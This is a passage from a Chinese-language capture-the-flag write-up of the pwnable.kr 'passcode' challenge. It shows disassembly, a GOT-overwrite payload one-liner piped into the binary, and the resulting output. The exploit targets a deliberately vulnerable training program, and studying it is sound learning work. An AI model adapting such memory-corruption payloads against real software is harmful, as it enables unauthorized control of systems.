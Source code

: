 查出的是`fflush`函数地址为`0x804a004`。我们将此地址中的值覆盖为我们`system`代码的地址`0x080485e3`。

```
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>

```
由于是整数输入，我们要将`0x080485e3`表示为10进制的134514147。

所以，构造的payload为
```
python -c 'print "A"*96 +"\x04\xa0\x04\x08" + "134514147"  ' | ./passcode 
```
得到flag。pwn!

```
passcode@ubuntu:~$ python -c 'print "A"*96 +"\x04\xa0\x04\x08" + "134514147"  ' | ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)

```





# 参考文献
[1] [[Pwnable.kr] passcode writeup – Toddler’s bottle](https://www.nrjfl0w.org/index.php/2016/09/04/passcode-writeup-pwnable/)
[2] [pwn学习笔记汇总（持续更新）](https://etenal.me/archives/972#C6)
[3] [一些pwn题目的解题思路[pwnable.kr](http://weaponx.site/2017/02/13/%E4%B8%80%E4%BA%9Bpwn%E9%A2%98%E7%9B%AE%E7%9A%84%E8%A7%A3%E9%A2%98%E6%80%9D%E8%B7%AF-pwnable-kr/)
[4] [PEDA用法总结](http://blog.csdn.net/SmalOSnail/article/details/53149426)
